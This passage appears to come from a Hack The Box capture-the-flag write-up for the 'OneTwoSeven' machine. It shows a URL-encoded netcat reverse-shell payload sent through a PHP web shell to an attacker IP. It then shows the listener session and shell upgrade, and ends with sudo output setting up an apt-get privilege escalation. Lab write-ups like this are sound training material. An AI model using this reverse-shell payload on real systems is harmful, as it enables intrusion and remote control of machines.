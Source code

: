 I now have RCE:

![](/assets/images/htb-writeup-onetwoseven/rce1.png)

Time to get a shell with a standard netcat reverse shell. I URL encoded the payload to avoid any issue: `GET 127.0.0.1:60080/addons/snowscan.php?cmd=rm %2ftmp%2ff%3bmkfifo %2ftmp%2ff%3bcat %2ftmp%2ff|%2fbin%2fsh -i 2>%261|nc 10.10.14.23 4444 >%2ftmp%2ff`

```
root@ragingunicorn:~/htb/onetwoseven# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:41952.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=35(www-admin-data) gid=35(www-admin-data) groups=35(www-admin-data)
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-admin-data@onetwoseven:/var/www/html-admin/addons$ ^Z
[1]+  Stopped                 nc -lvnp 4444
root@ragingunicorn:~/htb/onetwoseven# stty raw -echo
fg
www-admin-data@onetwoseven:/var/www/html-admin/addons
```

### Priv esc using apt-get MITM

I see that `www-admin-data` can run `apt-get` as root without any password:

```
www-admin-data@onetwoseven:/$ sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
    mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```
